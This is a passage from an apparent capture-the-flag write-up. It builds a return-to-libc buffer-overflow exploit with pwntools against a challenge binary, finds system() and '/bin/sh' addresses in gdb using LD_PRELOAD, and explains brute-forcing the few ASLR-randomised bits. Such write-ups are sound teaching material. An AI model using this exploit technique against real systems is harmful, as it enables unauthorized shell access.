 ```python
# get response and send malicious payload
r = p.recvuntil('Enter new keycode:')
offset = 16
p.send('A'*offset + pack(system_address) + 'BBBB' + pack(binsh_address))
```
Before, however, we'll need to set `system_address` and `binsh_address` with the correct values.

To do that, we'll use `gdb`, but loading the `libc.so` library that was provided instead of the one we have in our system. Thus we are sure that we're getting the right addresses. We can do that setting the `LD_PRELOAD` environment variable to the desired library. In `gdb` we can use the `set environment` command:
```bash
$ gdb gift
...
gdb-peda$ set environment LD_PRELOAD ./libc.so
```
Then we can start the execution and use the `print` command and the `peda` command `find` to locate the desired addresses (note that we need to start the execution so that the shared library is loaded):
```bash
gdb-peda$ start
...
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e32d10 <system>.
gdb-peda$ find '/bin/sh'
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc.so : 0xf7f718cf ("/bin/sh")
```
Ok, so in the python code above we just need to define:
```python
system_address = 0xf7e32d10
binsh_address = 0xf7f718cf
```
and we're done... right? Almost, but not yet!

## Breaking ASLR & getting the flag

If we do as explained, we'll get a segmentation fault almost surely. Why? Well, all modern operating systems implement what is called Address Space Layout Randomization (ASLR), which in short means that the base address of the executable, as well as those of the stack, heap and shared libraries, change at every execution. We can see this turning off ASRL in `gdb` (since it is off by default) and running the program many times. Here we can see different addresses obtained:
```
system address        '/bin/sh' address
--------------        -----------------
0xf7d42d10            0xf7e818cf
0xf7de9d10            0xf7f288cf
0xf7e18d10            0xf7f578cf
0xf7e15d10            0xf7f548cf
0xf7dc0d10            0xf7eff8cf
0xf7d49d10            0xf7e888cf
...                   ...
```
But, although each time the addresses of the `system` function and `/bin/sh` are different, actually there are only 3 digits that vary: all the addresses have the form `0xf7...d10` for `system` and `0xf7...8cf` for `'/bin/sh'`. This makes a bruteforcing feasible: there are *only* 16<sup>3</sup> = 4096 possible addresses, so let's pick one (the first one, for example), and repeat the exploit until the real address matches our choice.
